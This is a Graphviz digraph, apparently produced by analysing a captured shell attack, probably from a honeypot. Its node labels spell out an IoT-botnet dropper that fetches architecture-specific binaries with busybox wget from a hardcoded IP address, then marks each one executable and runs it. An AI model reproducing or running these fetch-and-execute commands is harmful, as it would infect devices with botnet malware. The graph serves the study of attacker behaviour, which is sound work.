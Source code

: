 digraph {
118 [label="cd /var "];
118 -> 120 [label="SC,(,"];
120 [label="cd /tmp "];
120 -> 4 [label="||,"];
4 [label="rm -rf qoH8SotBDj mips armv4l mipsel armv5l armv6l armv7l sh4 x64 "];
4 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),;,SC,(,"];
120 [label="cd /tmp "];
120 -> 10 [label="||,"];
10 [label="busybox wget http://185.128.43.214/mips "];
10 -> 12 [label=";,"];
12 [label="cat mips qoH8SotBDj "];
12 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 102 [label=";,"];
102 [label="./qoH8SotBDj "];
102 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 24 [label="||,"];
24 [label="busybox wget http://185.128.43.214/armv4l "];
24 -> 26 [label=";,"];
26 [label="cat armv4l qoH8SotBDj "];
26 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 102 [label=";,"];
102 [label="./qoH8SotBDj "];
102 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 38 [label="||,"];
38 [label="busybox wget http://185.128.43.214/mipsel "];
38 -> 40 [label=";,"];
40 [label="cat mipsel qoH8SotBDj "];
40 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 102 [label=";,"];
102 [label="./qoH8SotBDj "];
102 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 52 [label="||,"];
52 [label="busybox wget http://185.128.43.214/armv7l "];
52 -> 54 [label=";,"];
54 [label="cat armv7l qoH8SotBDj "];
54 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 102 [label=";,"];
102 [label="./qoH8SotBDj "];
102 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 66 [label="||,"];
66 [label="busybox wget http://185.128.43.214/armv5l "];
66 -> 68 [label=";,"];
68 [label="cat armv5l qoH8SotBDj "];
68 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 102 [label=";,"];
102 [label="./qoH8SotBDj "];
102 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 80 [label="||,"];
80 [label="busybox wget http://185.128.43.214/armv6l "];
80 -> 82 [label=";,"];
82 [label="cat armv6l qoH8SotBDj "];
82 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 102 [label=";,"];
102 [label="./qoH8SotBDj "];
102 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 94 [label="||,"];
94 [label="busybox wget http://185.128.43.214/sh4 "];
94 -> 96 [label=";,"];
96 [label="cat sh4 qoH8SotBDj "];
96 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 102 [label=";,"];
102 [label="./qoH8SotBDj "];
102 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),||,SC,(,"];
120 [label="cd /tmp "];
120 -> 108 [label="||,"];
108 [label="busybox wget http://185.128.43.214/x64 "];
108 -> 110 [label=";,"];
110 [label="cat x64 qoH8SotBDj "];
110 -> 112 [label=";,"];
112 [label="qoH8SotBDj "];
112 -> 112
114 [label="chmod +x qoH8SotBDj "];
114 -> 116 [label=";,"];
116 [label="./qoH8SotBDj4 "];
116 -> 118 [label=";,"];
118 [label="cd /var "];
118 -> 120 [label="),;,SC,(,"];
120 [label="cd /tmp "];
120 -> 121 [label="||,"];
}
